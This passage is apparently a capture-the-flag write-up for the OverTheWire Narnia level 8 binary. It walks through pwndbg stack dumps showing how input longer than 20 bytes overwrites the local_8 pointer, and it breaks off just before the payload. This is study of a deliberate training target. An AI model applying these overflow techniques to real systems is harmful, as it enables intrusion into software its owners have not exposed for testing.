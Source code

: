 A breakpoint was then set at the nop operation, and an input of 5 A’s was passed (this amount was chosen arbitrarily):

{% highlight bash %}
pwndbg> b *0x0804848d                                                                                                                                                          
Breakpoint 1 at 0x804848d                                                                                                                                                      
pwndbg> r $(python -c "print 'A'*5")                                                                                                                                          
Starting program: /home/0xd4y/business/other/overthewire/narnia/8/narnia8 $(python -c "print 'A'*5")                                                                          
AAAAA                                                                                                                                                                          
                                                                                                                                                                             
Breakpoint 1, 0x0804848d in func ()                                                                                                                                        
{% endhighlight %}

##### Local_8 Address Behavior

The stack pointer can now be analyzed:

{% highlight bash %}
pwndbg> x/40x $esp  
0xffffd044:     0x41414141      0x00000041      0x00000000      0x00000000  
0xffffd054:     0x00000000      0xffffd2f9      0xffffd068      0x080484a7  
0xffffd064:     0xffffd2f9      0x00000000      0xf7ddfe46      0x00000002  
0xffffd074:     0xffffd114      0xffffd120      0xffffd0a4      0xffffd0b4
{% endhighlight %}

Note how there are 5 A’s starting at 0xffffd044 followed by 15 0 bytes. The 0’s are a result of the memset function. These 0’s are then followed by the 0xffffd2f9 address. Examining this address reveals that it is pointing to the local_8 buffer:

{% highlight bash %}
pwndbg> x/s 0xffffd2f9  
0xffffd2f9:     "AAAAA"
{% endhighlight %}

Interestingly, running the program again but inputting 6 A’s instead of 5 results in a decrement of 1 to the local_8 address:

{% highlight bash %}
pwndbg> x/40x $esp  
0xffffd044:     0x41414141      0x00004141      0x00000000      0x00000000  
0xffffd054:     0x00000000      0xffffd2f8      0xffffd068      0x080484a7  
0xffffd064:     0xffffd2f8      0x00000000      0xf7ddfe46      0x00000002
{% endhighlight %}

Furthermore, when inputting more than 20 bytes, the address of local_8 gets overwritten by one byte:

{% highlight bash %}
0xffffd034:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd044:     0x41414141      0xffffd241      0xffffd058      0x080484a7
{% endhighlight %}

However, when exactly 20 bytes are inputted followed by the address of local_8 and some junk, we are able to flood into other areas of memory:

Payload:
